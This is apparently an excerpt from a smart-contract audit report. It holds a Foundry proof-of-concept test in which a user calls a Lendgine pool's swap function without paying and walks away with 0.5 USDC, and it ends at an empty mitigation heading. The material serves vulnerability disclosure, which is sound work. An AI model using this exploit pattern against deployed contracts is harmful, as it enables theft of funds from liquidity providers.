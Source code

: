         uint256 amount0 = 1.5*10**6;
        uint256 amount1 = 2 * (5 * 10**24 - 10**21);
        uint256 liquidity = 10**24;
    
        token0.mint(cuh, amount0);
        token1.mint(cuh, amount1);
    
        vm.startPrank(cuh);
        token0.approve(address(liquidityManager), amount0);
        token1.approve(address(liquidityManager), amount1);
    
        liquidityManager.addLiquidity(
          LiquidityManager.AddLiquidityParams({
            token0: address(token0),
            token1: address(token1),
            token0Exp: token0Scale,
            token1Exp: token1Scale,
            upperBound: upperBound,
            liquidity: liquidity,
            amount0Min: amount0,
            amount1Min: amount1,
            sizeMin: 0,
            recipient: cuh,
            deadline: block.timestamp
          })
        );
        vm.stopPrank();
        showLendgineInfo();
    
        // dennis starts with zero token
        assertEq(token0.balanceOf(dennis), 0);
    
        // dennis pulls 0.5 USDC free
        lendgine.swap(
          dennis,
          5*10**5,
          0,
          abi.encode(
            SwapCallbackData({token0: address(token0), token1: address(token1), amount0: 0, amount1: 0, payer: dennis})
          )
        );
    
        showLendgineInfo();
    
        // assert
        assertEq(token0.balanceOf(dennis), 5*10**5);
      }

### [](#tools-used)Tools Used

Foundry

### [](#recommended-mitigation-steps)Recommended Mitigation Steps
